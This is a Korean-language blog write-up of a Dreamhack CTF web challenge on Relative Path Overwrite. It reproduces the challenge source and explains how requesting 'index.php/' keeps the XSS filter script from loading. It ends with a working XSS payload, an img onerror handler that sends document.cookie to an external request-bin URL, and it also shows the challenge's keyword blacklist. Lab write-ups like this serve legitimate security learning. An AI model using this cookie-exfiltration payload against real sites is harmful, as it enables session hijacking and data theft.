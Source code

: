 ```yaml
---
title: (35) Dreamhack Relative Path Overwrite 문제 풀이
date: 2024-02-12 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
또 그 페이지 입니다.
![](https://kyuyeop.github.io/assets/img/post/35/1.png)
일단 메인페이지 입니다. 코드는 특별한건 없습니다.
```php
<html>
<head>
<link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css">
<title>Relative-Path-Overwrite</title>
</head>
<body>
    <!-- Fixed navbar -->
    <nav class="navbar navbar-default navbar-fixed-top">
      <div class="container">
        <div class="navbar-header">
          <a class="navbar-brand" href="/">Relative-Path-Overwrite</a>
        </div>
        <div id="navbar">
          <ul class="nav navbar-nav">
            <li><a href="/">Home</a></li>
            <li><a href="/?page=vuln&param=dreamhack">Vuln page</a></li>
            <li><a href="/?page=report">Report</a></li>
          </ul>

        </div><!--/.nav-collapse -->
      </div>
    </nav><br/><br/><br/>
    <div class="container">
      <?php
          $page = $_GET['page'] ? $_GET['page'].'.php' : 'main.php';
          if (!strpos($page, "..") && !strpos($page, ":") && !strpos($page, "/"))
              include $page;
      ?>
    </div> 
</body>
</html>
```
![](https://kyuyeop.github.io/assets/img/post/35/2.png)
vuln페이지 입니다.
```php
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var url = new URL(window.location.href);
    var param = url.searchParams.get("param");
    if (typeof filter !== 'undefined') {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```
위 코드에서 가져온 `filter.js`의 내용은 다음과 같습니다.
```javascript
var filter = ["script", "on", "frame", "object"];
```
![](https://kyuyeop.github.io/assets/img/post/35/3.png)
```php
<?php
if(isset($_POST['path'])){
    exec(escapeshellcmd("python3 /bot.py " . escapeshellarg(base64_encode($_POST['path']))) . " 2>/dev/null &", $output);
    echo($output[0]);
}
?>

<form method="POST" class="form-inline">
    <div class="form-group">
        <label class="sr-only" for="path">/</label>
        <div class="input-group">
            <div class="input-group-addon">http://127.0.0.1/</div>
            <input type="text" class="form-control" id="path" name="path" placeholder="/">
        </div>
    </div>
    <button type="submit" class="btn btn-primary">Report</button>
</form>
```
페이지의 구현 코드들은 위와 같고, 위 코드에서 나오는 `bot.py`은 다음과 같습니다.
```python
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import sys
import base64

if len(sys.argv) < 2:
    exit(-1)

if len(sys.argv[1]) == 0:
    exit(-1)

path = base64.b64decode(sys.argv[1]).decode('latin-1')

try:
    FLAG = open('/flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1/')
        driver.add_cookie(cookie)
        driver.get(url)

    except Exception as e:
        driver.quit()
        return False
    driver.quit()
    return True

def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
    url = f'http://127.0.0.1/{path}'
    return read_url(url, cookie)

if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
    print('<script>alert("wrong??");history.go(-1);</script>')
else:
    print('<script>alert("good");history.go(-1);</script>')
```
사이트는 index.php에 page로 넘긴 파일을 렌더링하는 방식으로 작동합니다.  
flag는 `bot.py`에 있고, `report.php`에 입력한 내용이 인코딩되어 `bot.py`로 보내지고, `bot.py`에서 쿠키에 flag를 담아 입력 url로 접속하는 방식입니다.  
  
vuln 페이지에는 `filter.js`를 이용해 blacklist 목록을 불러옵니다. 만약 일치하는게 있다면 `nope`을 출력하고요.  
이를 우회하는건 이 문제의 이름인 Relative Path Overwrite을 이용해 가능합니다.  
  
해당 페이지에서 파일을 가져오는 방식은 상대경로를 이용합니다. 즉, 파일이 불러와질 경로를 바꿀 수 있다면 `filter.js`를 불러오지 못하게 할 수 있습니다.
```
index.php/?page=vuln&param=
```
위와 같은 경로로 접근하게 된다면 클라이언트에서는 `index.php`를 보고 있지만, 서버는 `index.php`를 폴더로 간주하여 `index.php/filter.js`를 불러오려고 하다가 실패할 겁니다. 이로써 필터링을 무력화하고 xss가 가능합니다.  
  
이전에 문제들은 memo 페이지가 있어서 거기에 저장하는 방식으로 문제를 풀었지만, 이번에는 저장하는 페이지가 없으므로 다른 사이트의 도움을 받도록 하겠습니다.  
바로 [드림핵 툴즈](https://tools.dreamhack.games/main)입니다. 이 중에 request bin을 이용하면 생성된 url로 들어오는 요청들을 확인할 수 있습니다.  
  
이 위치로 cookie를 보내도록 하면 되겠습니다.  
  
앞서 xss 필터링을 무력화 시켰습니다. xss 기법을 이용해 드림핵 툴즈에서 생성한 url에 접근하도록 만들어줍시다.
```
index.php/?page=vuln&param=<img src="" onerror="location='https://lzjhnje.request.dreamhack.games?'%2bdocument.cookie">
```
param값이 vuln페이지에 들어갈때 url decode가 되므로 `+`대신 `%2b`로 바꾸어 넣어줘야 합니다.  
script 태그는 이유는 정확히 모르겠으나 작동을 안하네요. 프론트엔드에서도 잘 보이는데 이상하네요. `<img>`를 이용하니 가능해서 일단 해결했습니다. 추가한게 실행한것보다 위에 있어서 실행이 안된게 아닌가 생각해봅니다.  
  
아무튼 이렇게 넣고 report를 누르면
![](https://kyuyeop.github.io/assets/img/post/35/4.png)
이렇게 flag가 도착해 있습니다.
{% endraw %}